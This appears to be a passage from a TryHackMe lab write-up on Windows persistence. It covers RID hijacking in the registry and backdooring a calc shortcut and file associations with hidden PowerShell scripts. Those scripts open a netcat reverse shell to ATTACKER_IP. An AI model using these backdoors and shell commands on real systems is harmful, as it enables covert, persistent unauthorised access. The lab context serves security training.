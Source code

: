 Notice the RID is stored using little-endian notation, so its bytes appear reversed.

We will now replace those two bytes with the RID of Administrator in hex (500 = 0x01F4), switching around the bytes (F401):
<img width="597" height="317" alt="image" src="https://github.com/user-attachments/assets/346fbc1b-49c4-423c-a58b-544a72aec3cb" />

Now we connect via RDP (Remmina or any other RDP of your choice)

```bash
c:\tools\pstools>C:\flags\flag3.exe
THM{REDACTED!!!}
```

Q3. <img width="1383" height="108" alt="Screenshot 2025-10-21 at 2 46 29 in the afternoon" src="https://github.com/user-attachments/assets/7004d5e7-f003-4196-8811-e7d95aa049c0" />

--- 

## Task 3: Backdooring Files

Another common method to gain access is through tampering with commonly used files

### Shortcut Files

Let's create a simple Powershell script in C:\Windows\System32 or any other sneaky location. The script will execute a reverse shell and then run calc.exe from the original location on the shortcut's properties, and save it to ```backdoor.ps1``` file:

```bash
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"
C:\Windows\System32\calc.exe
```

Go to properties of calc on the Desktop
Change target to ```powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1```

Start nc listener on attacker's machine by ```nc -lvp 4445```
We should get the flag
```bash
C:\Users\Administrator>C:\flags\flag5.exe
C:\flags\flag5.exe
THM{REDACTED!!!}
```
Q1. 

<img width="627" height="99" alt="Screenshot 2025-10-21 at 3 28 53 in the afternoon" src="https://github.com/user-attachments/assets/6d3f4708-c73b-45ca-bd08-d013ab5c07e3" />

### Hijacking File Associations

Create a powershell file called backdoor2.ps1:
```bash
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4448"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

Go to Registry Editor and search for ```HKLM\Software\Classes\shell\open\command```
<img width="754" height="271" alt="image" src="https://github.com/user-attachments/assets/c6b0fa0f-c995-41ba-91a2-330321090790" />
